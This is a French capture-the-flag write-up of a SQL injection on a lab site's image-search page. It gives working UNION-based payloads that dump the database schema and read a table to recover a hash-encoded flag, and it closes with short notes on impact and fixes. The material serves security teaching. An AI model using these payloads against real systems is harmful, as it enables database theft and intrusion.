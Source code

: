 # Explication

Nom de la faille:   SQL injection searchimg

Aller sur l'URL:  `http://10.11.200.169/index.php?page=searchimg`

Il y a un input afin de chercher une image.

On a essayé de nombreuses injections SQL avant de trouver. On va résumer avec les injections SQl essentielles

Dans un premier temps, la première  injection qui a fonctionné est:
```
1 OR 1=1
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1&Submit=Submit#


L'injection nous permet d'obtenir toutes la liste de la table `list_images`.



On a ensuite essayé avec un UNION de rajouter une requête afin d'afficher le schéma de la base SQL en entier.

```
	1 OR 1=1 UNION select table_name, table_schema FROM information_schema.columns
    1 OR 1=1 UNION select table_name, column_name FROM information_schema.columns
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#



Grâce à ces deux injections, on a pu lire le schéma complet de la base SQL, c'est à dire récuperer tous les noms des colonnes, des tables et des schémas des tables.

Pour cette falle là, on va se concentrer sur la table list_images qui a pour colonnes:
    `id, url, title, comment`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select id, comment FROM Member_images.list_images
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+id%2C+comment+FROM+Member_images.list_images&Submit=Submit#


On trouve pour `id=5` le `comment="If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"`.


On decrypte le hash 1928e8083cf461a51303633093573c46 avec md5, on obtient alors `albatroz`.

Puis on encrypte albatroz comme demandé avec sha256, ce qui nous donne le flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`



# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.
